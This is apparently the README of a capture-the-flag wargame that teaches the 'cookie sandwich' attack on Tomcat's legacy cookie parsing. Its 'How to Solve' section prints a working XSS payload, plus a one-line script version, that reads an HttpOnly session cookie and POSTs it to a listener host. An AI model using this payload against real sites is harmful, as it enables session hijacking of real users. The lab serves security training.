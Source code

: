 ## 🚀 Overview

Modern browsers and servers usually follow **RFC6265** for cookie parsing—treating quotes as literal characters—while some legacy-compatible servers (e.g. Tomcat) will switch to **RFC2109/2965** parsing when they detect a `$Version` cookie.  
This challenge lets you:
1. Spin up a small, vulnerable JSP app in Docker  
2. Craft a “cookie sandwich” via JavaScript  
3. Leak a JSESSIONID(HttpOnly) cookie and post it back to the attacker bot  
4. Capture the flag! 🎉

## 📖 Background

- **RFC2109/2965 (Legacy)**  
  - Recognizes `$Version`, `$Path`, `$Domain` attributes  
  - Treats quoted values as one continuous string  
- **RFC6265 (Modern)**  
  - Delivers stricter parsing: semicolons always break name/value pairs  
  - Quotes are part of the value  

Tomcat’s dual-mode support means that by creating:
```js
document.cookie = '$Version=1; path=/json.jsp;';
document.cookie = 'param1="start; path=/json.jsp;';
document.cookie = 'param2=end"; path=/;';
```
the **legacy** parser will see:

```
param1="start;JSESSIONID=<secret>;param2=end"
```

…letting you read an HttpOnly session cookie!


## 🛠️ Setup & Run

1. **Clone this repo**
   ```bash
   git clone https://github.com/your-org/cookie-sandwich-wargame.git
   cd cookie-sandwich-wargame
   ```

2. **Set your secrets**  
   Create a `.env` in the repo root:
   ```ini
   ADMIN_PASSWORD=supersecret
   FLAG=CTF{you_sandwiched_them}
   ```

3. **Launch with Docker Compose**
   ```bash
   docker-compose up --build
   ```
   - **Tomcat** runs on `http://localhost:8080/`
   - **Bot server** (listener) runs on `http://localhost:8000/`

4. **Visit the challenge page**  
   Navigate to `http://localhost:8080/test.jsp` (or whichever front-end you provide).


## 💡 How to Solve

1. Trigger an XSS (or paste code in your browser console) on the test page.
2. Execute the cookie-sandwich payload:
   ```js
   document.cookie = '$Version=1; path=/json.jsp;';
   document.cookie = 'param1="start; path=/json.jsp;';
   document.cookie = 'param2=end"; path=/;';
   fetch('/json.jsp', { credentials: 'include' })
     .then(r => r.json())
     .then(data => {
       fetch('http://localhost:8000/', {
         method: 'POST',
         body: JSON.stringify(data)
       });
     });
   ```
3. The bot service will receive your leaked `session` value—check its logs (or UI) for the flag.

For a minimal one-liner (no whitespace):
```html
<script>document.cookie='$Version=1; path=/json.jsp;';document.cookie='param1="start; path=/json.jsp;';document.cookie='param2=end"; path=/;';fetch('/json.jsp',{credentials:'include'}).then(r=>r.json()).then(d=>fetch('http://localhost:8000/',{method:'POST',body:JSON.stringify(d)}));</script>
```


## 🔧 Challenge Files

- **`docker-compose.yml`** – Orchestrates two services:  
  - **`tomcat`** (vulnerable JSP app)  
  - **`bot`** (Flask+Selenium listener)
- **`tomcat/json.jsp`** – Returns the first non-JSESSIONID cookie value in JSON.
- **`flag.jsp`** (optional) – Protected page that requires a valid session.
- **`bot/`** – Contains the admin bot Dockerfile and listener code to capture your submission.


## 📝 References

- [PortSwigger: Stealing HttpOnly Cookies with the Cookie Sandwich Technique](https://portswigger.net/research/cookie-sandwich)  
- [SnoopBees Blog: HTTP Cookie Sandwich Attack](https://snoopbees.com/blog/http-cookie-sandwich-attack)  
